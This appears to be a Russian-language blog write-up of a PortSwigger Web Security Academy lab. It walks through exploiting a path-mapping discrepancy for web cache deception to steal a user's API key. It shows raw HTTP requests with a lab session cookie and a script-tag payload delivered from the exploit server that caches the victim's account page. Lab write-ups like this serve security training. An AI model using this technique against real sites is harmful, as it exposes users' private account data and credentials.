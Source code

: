 ```yaml
---
title: "Exploiting path mapping for web cache deception"
date: 2025-08-01
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-path-mapping-discrepancies/web-cache-deception/lab-wcd-exploiting-path-mapping"
classes: wide
---
```


Для прохождения лабы нужно найти `API`-ключи пользователя `carlos` с помощью **Web cache deception**. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

```
https://0a4a00610336ce2980e930f900af00b2.web-security-academy.net/
```

## Solution

Для начала зайду в свой аккаунт:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/1.png){: height="200" .align-center}

Аккаунт находится на ендпоинте `/my-account`. Попробую добавить рандомный путь `/foo`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/2.png){: height="200" .align-center}

Ответ остался тем же. Перейду в `Burp Suite`, чтобы посмотреть на заголовки запросов:

```http
GET /my-account/foo HTTP/2
Host: 0a4a00610336ce2980e930f900af00b2.web-security-academy.net
Cookie: session=cpyLVwGogGdTEue1LibfmS6nckRPPupq
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить расширение `.js`, чтобы проверить, будет ли кэширован ответ:

```http
GET /my-account/foo.js HTTP/2
Host: 0a4a00610336ce2980e930f900af00b2.web-security-academy.net
Cookie: session=cpyLVwGogGdTEue1LibfmS6nckRPPupq
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: traile
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3824

...

```

В ответе можно увидеть поля `X-Cache: miss` и `Age: 0`. Это означает, что мой запрос был кэширован. Теперь создам эксплойт, который отправим жертве. Для этого мне нужно перейти на выданный `Port Swigger Academy` эксплойт сервер.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/3.png){: height="200" .align-center}

А теперь подробнее. Данная ссылка будет отправлена жертве:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/4.png){: height="200" .align-center}

Тут можно увидеть имя файла, котрый будет скачан жертвой. И то, какой ответ на данный запрос будет получен. В данном примере я решил отправить `.html` файл, в котором содержится `js` скрипт `<script src='https://0a4a00610336ce2980e930f900af00b2.web-security-academy.net/my-account/secondtry.js'></script>`. Путь файла заканчивается на `/secondtry.js`. На данный запрос жертва получит страницу своего аккаунта, которая будет кэширована. А значит, я смогу получить доступ к информации из аккаунта. По имени файла `secondtry.js` можно понять, что получилось у меня это не с первой попытки...

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/5.png){: height="200" .align-center}

Итак. Клацаю кнопку ~~взломать все и вся~~ `Deliver exploit to victim`. Далее пробую перейти по ссылке `https://0a4a00610336ce2980e930f900af00b2.web-security-academy.net/my-account/secondtry.js`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/6.png){: height="200" .align-center}

Пуф, и `API`-ключ получен. Сдам его... верификатору.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/7.png){: height="200" .align-center}
